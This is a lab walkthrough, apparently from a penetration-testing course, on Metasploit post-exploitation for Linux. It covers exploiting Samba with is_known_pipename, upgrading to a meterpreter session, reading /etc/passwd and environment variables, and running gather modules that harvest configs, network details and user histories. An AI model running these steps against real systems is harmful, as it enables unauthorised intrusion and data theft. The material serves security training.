 # Linux Post Exploitation Modules

+ The MSF provides us with various post exploitation modules for both Windows and Linux.

+ We can utilize these post exploitation modules to enumerate information about the Linux system we currently have access to:
    - Enumerate system configuration
    - Enumerate environment variables
    - Enumerate network configuration
    - VM check
    - Enumerate user history

## Laboratory

- Start the postgresql server by running `service postgresql start`.

- Start the msfconsole and check the database status.

- Create a new workspace and import your nmap scan results. We can name it Linux_PE for this example.

- Set globally the target IP with `setg RHOSTS $TARGET_IP`, do this for the RHOST option as well.

- We can start by using db_nmap to start scanning the target machine. Or you can import them from an external xlm nmap result file.

**Note**: The target machine is the next ip after your ip address. If your ip is x.x.x.2, the target IP will be x.x.x.3.

- We are going to start performing a quick search to see al exploit modules related to Samba `search type:exploit name:samba`. And we are going to pay attention to the module `exploit/linux/samba/is_known_pipename`. If we select the module, we only need to set up the RHOSTS, SMB_FOLER and SMB_SHARE_NAME. The module comes with its own payload by default, so there's no need to upgrade it.

**Note**: Remember you can run `/bin/bash -i` and you will get a bash session.

- To upgrade it to a meterpreter session run `sessions -u $SESSION_ID`.

- Let's try local enumeration on victim 2: `sysinfo`, `getuid`.

- Local enumeration from a /bin/bash shell: `cat /etc/passwd`, `cat /etc/*release`, `whoami`, `groups $USERNAME`, `cat /etc/*issue`, `uname -r`, `uname -a`, `ip a s`, `netstat -antp`, `ps aux`, `env`, 

- Enum config post exploitation module: `post/linux/gather/enum_configs` and set the SESSION. It will give us all config files in the system.

**Note**: You can revisit the information gathered from the `loot` command.

- Enum env variables post exploitation module: `post/linux/gather/env`.

- Enum network information post exploitation module: `post/linux/gather/enum_network`.

- Enum protections post exploitation module: `post/linux/gather/enum_protections`. Information like if system protection ASLR, SMEP, SMAP, Yama are enabled and if applications like iptables, tcpdump, wireshark are installed.

**Note**: This type of information can be revisited by running the command `notes`.

- Enum system information: `post/linux/gather/enum_system`.

- Check if the target is a container: `post/linux/gather/checkcontainer`. If we do this, we can perform a container breakout.

- Check if the target is VM: `post/linux/gather/checkvm`. If we do this, we can perform a VM breakout.

- Enum history file for all users in the machine: `post/linux/gather/enum_users_history`.
